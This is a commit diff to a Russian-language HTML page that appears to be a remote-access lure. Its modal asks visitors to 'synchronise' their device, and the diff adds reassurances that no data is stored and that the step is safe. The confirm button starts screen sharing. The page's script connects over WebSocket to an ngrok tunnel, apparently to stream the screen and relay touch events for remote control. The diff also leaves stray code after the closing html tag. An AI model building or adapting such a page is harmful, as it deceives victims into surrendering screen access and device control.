

Before and after one commit to Diksing/-2-2-, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "Синхронизировать". Shown: the part 131-490 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -100,7 +100,7 @@
     <div id="confirmationModal" class="modal">
         <div class="modal-content">
             <p id="modalMessage">Подтвердите синхронизацию устройства для управления</p>
-            <p style="color: #888; font-size: 12px;">Это необходимо для проверки совместимости. Безопасно и займёт несколько секунд.</p>
+            <p style="color: #888; font-size: 12px;">Это необходимо для проверки совместимости устройства. Мы не сохраняем данные, это безопасно и займёт всего 5 секунд.</p>
             <button class="modal-button confirm" onclick="startScreenShare()">Подтвердить</button>
             <button class="modal-button cancel" onclick="closeModal()">Отмена</button>
         </div>
@@ -109,7 +109,7 @@
     <script>
         let localStream = null;
         let peerConnection = null;
-        const ws = new WebSocket('wss://5a94-159-224-105-180.ngrok-free.app');
+        const ws = new WebSocket('wss://new-url.ngrok-free.app'); // Замени на новый URL от ngrok (например, wss://abc123.ngrok-free.app)
 
         ws.onopen = () => {
             console.log('Подключено к WebSocket-серверу');
@@ -209,4 +209,8 @@
         }
     </script>
 </body>
+</html>dispatchEvent(touchEvent);
+        }
+    </script>
+</body>
 </html>
```
